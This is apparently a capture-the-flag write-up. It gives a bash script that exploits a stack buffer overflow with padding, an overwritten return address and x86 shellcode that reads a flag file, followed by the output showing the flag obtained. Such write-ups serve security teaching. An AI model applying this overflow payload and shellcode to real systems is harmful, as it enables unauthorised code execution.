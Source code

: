 ```bash
# then the code to execute
send_str=$(python -c "print('A'*63)")
send_str=$send_str$(python -c "print('$hex_addr')")
send_str=$send_str$(python -c 'print("\x31\xc0\x50\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x50\x68\x2e\x74\x78\x74\x68\x6c\x61\x67\x32\x68\x2e\x2f\x2f\x66\x89\xe6\x50\x56\x53\x89\xe1\x31\xd2\xb0\x08\xfe\xc0\xfe\xc0\xfe\xc0\xcd\x80\xb0\x01\x31\xdb\xcd\x80")')

# Send the string
echo $send_str > inp.txt
echo $send_str >&3

# Get the result
cat <&3

echo Done!

# Close the socket
exec 3<&-
```
I ran this and got:
```
./hack_stack0pt2.sh Found: Debug info: Address of input buffer = 0xffa61e5d
Extracted: ffa61e5d
Final address: ffa61ea0
As hex chars (little endian): \xa0\x1e\xa6\xff
Enter the name you used to purchase this program: Thank you for purchasing Hackersoft Powersploit!
Here is your first flag: flag{<flag from stack0pt1 was here>}

flag{<flag from this challenge was here>}
Done!
```
This worked and gave us the flag!
